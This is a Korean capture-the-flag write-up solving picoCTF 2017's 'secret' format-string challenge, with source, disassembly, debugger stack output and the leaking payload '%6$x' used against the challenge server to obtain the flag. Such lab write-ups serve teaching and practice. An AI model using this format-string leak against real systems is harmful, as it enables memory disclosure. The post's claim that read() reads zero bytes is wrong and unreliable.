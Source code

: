 `#FSB`
# 목차
1. [Description](#description)
2. 분석
	1. 목표 확인
	2. 취약점 확인 (FSB)
3. 공격 루틴
	1. secret 은 몇번째인지
4. [Flag](#flag)
## Descripttion
> 바이너리 [secret](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret) 랑 [소스코드](https://webshell2017.picoctf.com/static/2d756322664bc048224f02ad0a62a0bc/secret.c)가 주어진다.  
> nc  shell2017.picoctf.com 55189  
  
```
     1  #include <stdio.h>
     2  #include <fcntl.h>
     3  #include <unistd.h>
     4  #include <stdlib.h>
     5
     6  #define BUF_LEN 64
     7  char buffer[BUF_LEN];
     8
     9  int main(int argc, char** argv) {
    10      int fd = open("/dev/urandom", O_RDONLY);
    11      if(fd == -1){
    12          puts("Open error on /dev/urandom. Contact an admin\n");
    13          return -1;
    14      }
    15      int secret;
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
    20      close(fd);
    21      printf("Give me something to say!\n");
    22      fflush(stdout);
    23      fgets(buffer, BUF_LEN, stdin);
    24      printf(buffer);
    25
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }else{
    34          puts("As my friend says,\"You get nothing! You lose! Good day, Sir!\"");
    35      }
    36
    37      return 0;
    38  }
```
## 분석
### 목표 확인
```
    30      if(secret == not_secret){
    31          puts("Wow, you got it!");
    32          system("cat ./flag.txt");
    33      }
```
secret 과 not_secret 이 같아야 키값을 얻을 수 있습니다.  

```
    15      int secret;
```
secret 은 무엇이냐면  
정수형 변수이고  

```
    16      if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    17          puts("Read error. Contact admin!\n");
    18          return -1;
    19      }
```
fd 라는 파일디스크립터로부터 읽어들입니다.  
그런데 read 의 매개변수 중  
세번째에 들어가는 값은 False.  
즉, size=0  
  
한마디로 한 바이트도 읽어들이지 않고  
또 초기화되지 않았으므로  
secret 에 저장되는 값은 쓰레기값 되시겠다.  
  
__if문의 조건문은 항상 False(0) 이니깐  
admin에게 연락할 일 없겠군요__  

```
    26      int not_secret;
    27      printf("Now tell my secret in hex! Secret: ");
    28      fflush(stdout);
    29      scanf("%x", &not_secret);
```
not_secret 은  
29번째 줄에서  
16진수 소문자로  
입력받는다.  

### 취약점 분석 (FSB)
```
    24      printf(buffer);
```
24번째 줄을  보면  
포맷 스트링 버그가 보입니다.  
그럼 buffer 는 어디에서 받느냐!  

```
    23      fgets(buffer, BUF_LEN, stdin);
```
fgets 에서 입력받는다.  
딱 BUF_LEN 만큼 받는데  

```
     6  #define BUF_LEN 64
```
그 크기는 64 이다.  

## 공격 루틴
아하!  
secret 에 쓰레기값이 저장되고  
24번째 줄에서 FSB로 secret 을 leak 하고  
29번째 줄에서 not_secret 에 값을 입력하면 되는구나!  

### secret 은 몇번째인지
FSB 를 사용하려면 secret 이 몇번째인지 알아야한다.  

```
# file ./secret
./secret: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=25d674d62f2f6070f9f87664bbd5b6aa5c045ef0, not stripped
```
일단 32비트 바이너리이고  

```
   0x08048636 <+75>:    lea    eax,[ebp-0x10]
   0x08048639 <+78>:    push   eax
   0x0804863a <+79>:    push   DWORD PTR [ebp-0xc]
   0x0804863d <+82>:    call   0x8048440 <read@plt>
```
32비트 바이너리는 제일 마지막에 push 되는 데이터가 첫번째 매개변수이다.  
main+75 를 보면 ebp-0x10 이 secret 이다.  

```
pwndbg> stack
00:0000│ esp  0xffffd220 —▸ 0x8049b40 (buffer) ◂— 0x70257025 ('%p%p')
01:0004│      0xffffd224 ◂— 0x40 /* '@' */
02:0008│      0xffffd228 —▸ 0xf7f9b5c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
03:000c│      0xffffd22c —▸ 0x8048792 (__libc_csu_init+82) ◂— add    edi, 1
04:0010│      0xffffd230 ◂— 0x1
05:0014│      0xffffd234 —▸ 0xffffd2f4 —▸ 0xffffd445 ◂— 0x746e6d2f ('/mnt')
06:0018│      0xffffd238 ◂— 0x11aad860
07:001c│      0xffffd23c ◂— 0x3
08:0020│      0xffffd240 —▸ 0xf7fe59a0 ◂— push   ebp
09:0024│      0xffffd244 —▸ 0xffffd260 ◂— 0x1
0a:0028│ ebp  0xffffd248 ◂— 0x0
```
```
pwndbg> x/wx $ebp-0x10
0xffffd238:     0x11aad860
```
비교해보니 6번째라는 것을 알았다.  

## Flag
```
# nc shell2017.picoctf.com 55189
Give me something to say!
%6$x
a6aa3c3a
Now tell my secret in hex! Secret: a6aa3c3a
a18450ba7aaa8c085c522cdef6ab35ab
Wow, you got it!
```
